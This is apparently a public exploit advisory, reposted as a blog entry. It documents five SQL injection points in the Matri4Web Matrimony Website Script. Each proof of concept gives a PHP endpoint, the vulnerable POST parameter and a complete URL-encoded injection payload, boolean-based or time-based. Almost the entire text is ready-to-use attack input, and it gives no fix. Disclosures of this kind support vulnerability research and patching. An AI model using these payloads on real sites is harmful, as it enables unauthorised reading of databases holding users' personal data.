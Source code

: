 ```yaml
---
layout:     post
title:      "Matri4Web Matrimony Website Script - Multiple SQL Injection "
date:       2019-03-21 12:36
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```


# Exploit Title: Matrimony Website Script - Multiple SQL Injection
# Date: 22.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://www.matri4web.com
# Demo Site: https://www.matrimonydemo.com
# Version: M-Plus
# Tested on: Kali Linux
# CVE: N/A

----- PoC 1: SQLi -----

Request: http://localhost/[PATH]/simplesearch_results.php
Vulnerable Parameter: txtGender (POST)
Attack Pattern:
Fage=18&Tage=18&caste=Any&religion=Any&submit=Submit&txtGender=-1'%20OR%203*2*1=6%20AND%20000715=000715%20--%20&txtphoto=1&txtprofile=0

----- PoC 2: SQLi -----

Request: http://localhost/[PATH]/advsearch_results.php
Vulnerable Parameter: religion (POST)
Attack Pattern:
age1=18&age2=18&caste[]=Any&cboCountry[]=&city[]=Any&edu[]=Any&ms=Unmarried&occu[]=Any&religion=-1'%20OR%203*2*1=6%20AND%20000723=000723%20--%20&state[]=Any&submit=Submit&txtGender=Male&txtphoto=Show%20profiles%20with%20Photo

----- PoC 3 - SQLi -----

Request: http://localhost/[PATH]/specialcase_results.php
Vulnerable Parameter: Fage
Attack Pattern:
Fage=(select(0)from(select(sleep(0)))v)/*'%2B(select(0)from(select(sleep(0)))v)%2B'"%2B(select(0)from(select(sleep(0)))v)%2B"*/&Tage=18&caste=Any&religion=Any&sp_cs=Any&submit=Submit&txtGender=Male&txtphoto=Show%20profiles%20with%20Photo&txtprofile=7

----- PoC 4 - SQLi -----

Request: http://localhost/[PATH]/locational_results.php
Vulnerable Parameter: cboCountry (POST)
Attack Pattern:
Fage=18&Tage=18&cboCountry=-1'%20OR%203*2*1=6%20AND%20000567=000567%20--%20&cboState=Any&city=Any&submit=Submit&txtCountry=Argentina&txtCountryLength=9&txtGender=Male&txtNumCountries=251&txtNumStates=25&txtSelectedCountry=9&txtSelectedState=10&txtState=Entre%20Rios&txtStateLength=10&txtphoto=Show%20profiles%20with%20Photo

----- PoC 5 - SQLi -----

Request: http://localhost/[PATH]/registration2.php
Vulnerable Parameter: religion (POST)
Attack Pattern:
EMAILconfirm=sample%40email.tst&Language=&dobDay=&dobMonth=&dobYear=&religion=-1'%20OR%203*2*1=6%20AND%20000830=000830%20--%20&submit=Submit&txtAccept=I%20Accept%20%20the%20Terms%20and%20Conditions&txtGender=Male&txtMC=&txtMobile=987-65-4329&txtName=FtkKDgHs&txtPC=Self&txtcp=1
